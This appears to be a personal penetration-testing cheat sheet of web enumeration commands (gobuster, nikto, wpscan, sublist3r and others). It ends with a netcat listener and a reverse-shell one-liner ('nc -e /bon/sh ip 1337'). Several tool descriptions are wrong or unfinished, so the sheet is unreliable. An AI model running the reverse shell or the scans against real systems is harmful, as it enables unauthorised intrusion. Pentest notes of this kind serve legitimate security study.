 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

## Web Enumeration ##
wappalyzer - good plugin for looking at website platforms or software. add this to my hacking soe  

crt.sh - website to search for subdomains.  

curl -u http://website - display website header and info  

whatweb www.site.com - good for looking at website platforms or software.

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  (add -t 10 for multithread or faster search)

nikto -h www.site.com  - scans website for platforms or software versions. also mentions where attacks could be possible. 

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

python3 -m http.server 80 -- Start at adhoc webserver, good for quickly sharing files.    
  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   
